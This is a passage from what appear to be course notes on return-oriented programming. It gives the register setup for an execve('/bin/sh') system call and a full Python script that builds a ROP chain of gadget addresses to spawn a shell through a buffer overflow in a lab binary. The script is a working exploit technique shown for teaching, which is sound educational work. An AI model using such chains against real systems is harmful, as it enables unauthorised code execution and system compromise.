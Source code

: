 -   eax : 0xb
-   ebx : address of the string "/bin/sh\\0"
-   ecx : 0x0
-   edx : 0x0

We can do that.

``` example
user@si485H-base:demo$ cat shell_rop.py
from struct import pack

p = '+'*(0x70) #padding

#Write an /bin to 0x080ea060
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += "/bin" # bin
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below

#Write an //sh 0x080ea064
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea064) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += "//sh" # bin
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below


#Set eax to 0xb and ebx to 0x080ea060
p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
p += pack('<I', 0x080ea060) #address of "/bin/sh"
p += pack('<I', 0x0807b466) # inc eax (1)
p += pack('<I', 0x0807b466) # inc eax (2)
p += pack('<I', 0x0807b466) # inc eax (3)
p += pack('<I', 0x0807b466) # inc eax (4)
p += pack('<I', 0x0807b466) # inc eax (5)
p += pack('<I', 0x0807b466) # inc eax (6)
p += pack('<I', 0x0807b466) # inc eax (7)
p += pack('<I', 0x0807b466) # inc eax (8) 
p += pack('<I', 0x0807b466) # inc eax (9)
p += pack('<I', 0x0807b466) # inc eax (a)
p += pack('<I', 0x0807b466) # inc eax (b)

#Set ecx to 0
p += pack('<I', 0x080e4c5d) # : pop ecx ; ret
p += pack('<I', 0xffffffff) # value for ecx
p += pack('<I', 0x080daa6c) # : inc ecx ; ret (ecx now zero)


#Set edx to 0

p += pack('<I', 0x0806e97a)# pop edx ; ret
p += pack('<I', 0xffffffff)# set edx to 0xfffffff
p += pack('<I', 0x0805d0e7)# : inc edx ; ret

#call interrupt
p += pack('<I', 0x0806f040) # int 0x80; ret

print p
```
